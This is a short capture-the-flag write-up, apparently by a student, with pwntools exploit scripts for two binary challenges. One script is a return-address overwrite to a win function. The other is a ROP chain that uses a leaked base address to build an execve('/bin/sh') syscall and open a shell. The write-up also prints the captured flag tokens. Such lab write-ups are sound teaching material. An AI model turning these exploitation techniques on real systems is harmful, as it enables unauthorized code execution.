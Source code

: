 Andrew Wong z5206677

# lol

> FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiZmluYWwtbG9sIiwiaXAiOiIyMDIuODcuMTYyLjI4Iiwic2Vzc2lvbiI6IjUxMGFjOTExLWQ2YmMtNGMzMS1hZjdiLWQzYTUxYzVmZGY1ZSJ9.sBq2c41J24uMxXZWNBaeMoqa9JKtJ1s2yFbBH1gvK5Q}

```c
#!/usr/bin/python3

"""
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
"""

binary_path = "./lol"
remote_addr = ('plsdonthaq.me', 1)

#############################
from pwn import *;DEBUG=context.log_level==logging.DEBUG;p=process(binary_path);elf=p.elf;p=remote(*remote_addr) if args["REMOTE"] else p;
#############################

# Exploit

p.recvuntil("Win functions @ ")
func = int(p.recvline(), 16)
log.info(f"Win function at {hex(func)}")
p.sendline(fit({0x4+4: p32(func)}))

p.interactive()
```

# monalisa

FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiZmluYWwtbW9uYWxpc2EiLCJpcCI6IjIwMi44Ny4xNjIuMjgiLCJzZXNzaW9uIjoiZGEzY2FmNTQtMmVmMi00NjI3LThhNjgtOTZhMmFlNmYyYTFiIn0.fVWLJNja2mWk6x8Z-Zq4AhHwFaOjPxYyhK89IOzZCEw}

```c
#!/usr/bin/python3

"""
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
"""

binary_path = "./monalisa"
remote_addr = ('plsdonthaq.me', 2)

#############################
from pwn import *;DEBUG=context.log_level==logging.DEBUG;p=process(binary_path);elf=p.elf;p=remote(*remote_addr) if args["REMOTE"] else p;
#############################

# Exploit

p.recvuntil("want a leak: ")

addr = dict()

elf.address = addr["base"] = int(p.recvline(), 16) - elf.symbols["functions_go_brrrr"]
log.info(f"Base is {hex(addr['base'])}")
addr['binsh'] = next(elf.search(b'/bin/sh'))

payload = b''
payload += b'.' * (0x17 + 4)
payload += p32(0x0000125a + addr["base"])       # mov eax, 0; mov edx, 0; ret; 
payload += p32(0x0000126d + addr["base"]) * 0xb # add eax, 1; ret; 
payload += p32(0x00001022 + addr["base"])       # pop ebx; ret; 
payload += p32(addr['binsh'])
payload += p32(0x00001265 + addr["base"])       # xor ecx, ecx; ret; 
payload += p32(0x0000126a + addr["base"])       # int 0x80;

p.sendline(payload)

p.interactive()
```

# root

Didn't get the flag in time.  
Supplying a negative integer that has an LSB of `0x09` to the program might be possible, since the number would be considered as "below 9".
